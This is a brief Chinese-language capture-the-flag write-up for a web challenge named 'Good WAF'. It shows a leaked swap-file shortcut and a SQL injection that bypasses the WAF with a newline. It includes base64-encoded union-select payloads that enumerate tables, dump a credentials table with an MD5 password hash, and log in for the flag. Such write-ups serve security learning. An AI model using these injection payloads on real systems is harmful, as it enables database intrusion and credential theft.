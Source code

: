 # Good WAF

賽中沒解出來

賽後紀錄一下

## 非正規解法

`.index.php.swp`可以直接看到FLAG

## 正規解法

參數可以餵`object=base64_encode({"data":"1"})`

很直覺就會想在"1"這邊SQL Injection

但賽中一直繞不掉WAF

後來才知道換行就可以繞掉了

例如： 

```
{
"data":"-1'union select 1,2-- '"}
```

所以`object=ewoiZGF0YSI6Ii0xJyB1bmlvbiBzZWxlY3QgMSxncm91cF9jb25jYXQoc2NoZW1hX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnNjaGVtYXRhLS0gLSJ9`

就能得到`information_schema`, `waf_portal` 

再來撈表名： `ewoiZGF0YSI6Ii0xJyB1bmlvbiBzZWxlY3QgMSxncm91cF9jb25jYXQodGFibGVfbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT1kYXRhYmFzZSgpLS0gIn0=`

=> `access_logs`,`credentials`,`news`

=> `access_logs`: `id`, `log`

=> `credentials`: `id`,`username`,`password`,`role`

撈帳密： `object=ewoiZGF0YSI6Ii0xJyB1bmlvbiBzZWxlY3QgMSxncm91cF9jb25jYXQoY29uY2F0KHVzZXJuYW1lLDB4MmYscGFzc3dvcmQpKSBmcm9tIGNyZWRlbnRpYWxzLS0gIn0=`

=> `valid_user`/`5f4dcc3b5aa765d61d8327deb882cf99`

=> `5f4dcc3b5aa765d61d8327deb882cf99` => `password`

找login point：`object=ewoiZGF0YSI6ICItMSd1bmlvbiBzZWxlY3QgMSxsb2cgZnJvbSBhY2Nlc3NfbG9ncy0tICIgfQ==`

=> 可以發現`GET /?action=log-in`

http://167.99.12.110/?action=log-in&credentials[]=valid_user&credentials[]=password

=> `ASIS{e279aaf1780c798e55477a7afc7b2b18}`

